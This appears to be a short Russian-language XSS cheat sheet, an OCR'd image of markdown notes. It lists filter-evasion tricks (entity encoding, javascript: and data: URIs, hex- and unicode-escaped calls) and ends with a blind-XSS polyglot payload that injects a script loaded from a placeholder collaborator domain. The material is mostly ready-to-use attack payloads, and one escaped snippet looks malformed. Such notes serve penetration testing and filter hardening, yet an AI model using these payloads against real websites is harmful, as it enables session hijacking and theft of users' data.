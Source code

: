 ## Обфускация

- против регулярок - переносы строк, смена регистра
- внутри HTML-атрибутов и SVG-тегов можно использовать XML/HTML entity encoding
- названия функций можно кодировать в UTF  `\u00 + 'Щ'.charCodeAt(0).String(16)`
- в атрибуте `href` можно использовать псевдопротокол `javascript:`
- в атрибуте `src` как `data:javascript,alert(1)`
- в функцию можно передать hex-энкод:

```js
setTimeout`\x61\x6c\x65\x72\x74\x28\x31\x29\` 
```

## Blind XSS

```
</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/yourcollaboratordomain/).slice(2), document.documentElement.appendChild(s))//'>
```